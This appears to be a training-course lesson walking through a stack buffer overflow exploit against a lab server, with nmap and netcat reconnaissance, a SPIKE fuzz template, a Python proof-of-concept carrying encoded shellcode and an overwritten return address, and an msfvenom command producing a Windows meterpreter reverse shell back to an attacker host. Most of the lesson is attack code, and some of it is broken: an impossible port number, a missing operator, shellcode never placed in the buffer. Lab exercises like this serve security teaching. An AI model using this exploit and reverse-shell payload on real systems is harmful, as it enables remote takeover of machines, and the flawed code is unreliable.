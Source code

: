 # Module 2, Lesson 14 – Buffer Overflow Exploit

## 1. Identify the attack surface of the server

```bash
nmap 192.168.229.13 ( found port 313373/tcp open Elite)
nc 192.168.229.13 31337 ("Welcome to the character customizatino server! Type HELP for options")
HELP brings up a list of inputs
```

## 2. Fuzz the server for weaknesses in buffers

[Simple Fuzzer Script](../Mod2L13-Simple-Fuzzer.md#actual-fuzzer-script)

## 3. Develop a proof of concept exploit

```spike
s_readline();
s_string("A");
S_string_variable("NICK")
```

```python
#! /usr/bin/env python3

import socket

ip='192.168.229.13'
port=31337
buff = 'CLASS ' + 'A'*2001 + 'BBBB'*4 + 'C' * (5011 - 11 - 4)

print(buff)

buf =  b""
buf += b"\xb8\x7e\x7d\x29\xf2\xdb\xc4\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x59\x83\xeb\xfc\x31\x43\x10\x03\x43\x10\x9c"
buf += b"\x88\xd5\x1a\xef\x73\x26\xdb\x8f\x42\xf4\xbf\xc4\xf7"
buf += b"\xc8\xb4\x88\xfb\xa3\x99\x38\x8d\x51\x12\xf7\xc7\xbf"
buf += b"\x1c\x08\x5c\xcd\x76\xc7\xa3\x9e\xbb\x46\x58\xdd\xef"
buf += b"\xa8\x61\x2e\xe2\xa9\xa6\xf8\x88\x46\x7a\xac\xf9\xca"
buf += b"\x6b\xd9\xbc\xd6\x8a\x0d\xcb\x66\xf5\x28\x0c\x12\x49"
buf += b"\x32\x5d\x51\x09\x14\x0d\xee\xe2\x4c\xac\x23\x77\xa5"
buf += b"\xda\xff\x31\xbd\x17\x74\xc0\x17\x66\x75\xf2\x57\x48"
buf += b"\x46\xf8\xfb\x4a\x9f\x3b\xe4\x38\xeb\x3f\x99\x3a\x28"
buf += b"\x3d\x45\xce\xae\xe5\x0e\x68\x0a\x17\xc2\xef\xd9\x1b"
buf += b"\xaf\x64\x85\x3f\x2e\xa8\xbe\x44\xbb\x4f\x10\xcd\xff"
buf += b"\x6b\xb4\x95\xa4\x12\xed\x73\x0a\x2a\xed\xdc\xf3\x8e"
buf += b"\x66\xce\xe2\xaf\x87\x10\x0b\xf2\x1f\xdc\xc6\x0d\xdf"
buf += b"\x4a\x50\x7d\xed\xd5\xca\xe9\x5d\x9d\xd4\xee\xd4\x89"
buf += b"\xe6\x21\x5e\xd9\x18\xc2\x9e\xf3\xde\x96\xce\x6b\xf6"
buf += b"\x96\x85\x6b\xf7\x42\x33\x66\x6f\xad\x6b\x93\x71\x45"
buf += b"\x69\x5c\x57\x96\xe4\xba\x37\xc9\xa6\x12\xf8\xb9\x06"
buf += b"\xc3\x90\xd3\x89\x3c\x80\xdb\x40\x55\x2b\x34\x3c\x0d"
buf += b"\xc4\xad\x65\xc5\x75\x31\xb0\xa3\xb6\xb9\x30\x53\x78"
buf += b"\x4a\x31\x47\x6d\x2d\xb9\x97\x6e\xd8\xb9\xfd\x6a\x4a"
buf += b"\xee\x69\x71\xab\xd8\x35\x8a\x9e\x5b\x31\x74\x5f\x6d"
buf += b"\x49\x43\xf5\xd1\x25\xac\x19\xd1\xb5\xfa\x73\xd1\xdd"
buf += b"\x5a\x20\x82\xf8\xa4\xfd\xb7\x50\x31\xfe\xe1\x05\x92"
buf += b"\x96\x0f\x73\xd4\x38\xf0\x56\x66\x3e\x0e\x24\x41\xe7"
buf += b"\x66\xd6\xd1\x17\x76\xbc\xd1\x47\x1e\x4b\xfd\x68\xee"
buf += b"\xb4\xd4\x20\x66\x3e\xb9\x83\x17\x3f\x90\x42\x89\x40"
buf += b"\x17\x5f\x3a\x3a\x58\x60\xbb\xbb\x70\x05\xbc\xbb\x7c"
buf += b"\x3b\x81\x6d\x45\x49\xc4\xad\xf2\x42\x73\x93\x53\xc9"
buf += b"\x7b\x87\xa4\xd8"

buff = 'CLASS /.../' + 'A' * 2001 + '\xb1\xf9\x93\x77' + 'BBBB'*4 +'C' (5011 - 11 -4)

with socket.socket() as fuzz:
    fuzz.connect((ip,port))
    fuzz.send(bytes(buff,'latin-1'))


```

## 4. Further develop your exploit to a full shell

```msfvenom
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.229.30 lport=55555 -e x86/shikata_ga_nai -b '\x00' -f python
```
EIP = 7792dc9d
## NOTE: You can choose to do a BIND or REVERSE shell or try both
